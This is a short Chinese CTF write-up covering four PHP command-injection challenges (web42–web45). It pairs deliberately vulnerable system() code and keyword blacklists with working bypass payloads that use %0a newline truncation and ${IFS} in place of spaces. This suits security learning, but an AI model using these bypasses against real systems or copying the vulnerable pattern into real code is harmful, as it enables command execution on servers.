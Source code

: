 


## web42（%0a截断）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```
> /dev/null 2>&1
默认情况是1，也就是等同于1>/dev/null 2>&1。意思就是把标准输出重定向到“黑洞”，还把错误输出2重定向到标准输出1，也就是标准输出和错误输出都进了“黑洞”

这个题看样子是会将执行结果输入到一个地方，不在页面上回显，我们可以使用换行符截断
payload：/?c=tac *%0a
## web43（%0a截断）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
同上
payload：/?c=tac *%0a
## web44（%0a截断）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
同上
payload：/?c=tac *%0a
## web45（空格绕过）
```php
<?php
  
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
payload：/?c=tac${IFS}*%0a